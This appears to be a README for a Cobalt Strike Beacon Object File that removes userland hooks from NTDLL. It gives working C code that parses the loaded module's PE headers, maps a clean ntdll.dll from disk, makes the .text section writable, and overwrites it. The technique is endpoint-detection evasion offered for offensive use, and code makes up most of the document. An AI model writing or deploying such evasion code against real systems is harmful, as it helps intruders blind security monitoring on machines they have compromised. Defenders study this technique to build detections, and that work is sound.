 # Removing Hooks by Refreshing NTDLL

A Beacon Object File used to remove userland hooks from NTDLL. Currently supports only 64 bit (although the change is trivial).

## Hook Removal

Parses the PE structure of the loaded NTDLL module:

```
PSAPI$GetModuleInformation(process, ntdllModule, &mi, sizeof(mi));
LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;
PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase + hookedDosHeader->e_lfanew);
```

Maps a new copy of NTDLL from disk, without hooks:
```
HANDLE ntdllFile = KERNEL32$CreateFileA((LPCSTR)"c:\\windows\\system32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
HANDLE ntdllMapping = KERNEL32$CreateFileMappingA(ntdllFile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
LPVOID ntdllMappingAddress = KERNEL32$MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);
```

Parses the sections of the pre-existing NTDLL, and looks for the ".text" section.
Once the target section is found, the code within it is replaced with the code of the NTDLL module that was mapped from disk:

```
for (WORD i = 0; i < hookedNtHeader->FileHeader.NumberOfSections; i++) {
                PIMAGE_SECTION_HEADER hookedSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));

                if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {
                        DWORD oldProtection = 0;
                        BOOL isProtected = KERNEL32$VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
                        MSVCRT$memcpy((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), (LPVOID)((DWORD_PTR)ntdllMappingAddress + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize);
                        isProtected = KERNEL32$VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, oldProtection, &oldProtection);
                }
        }
```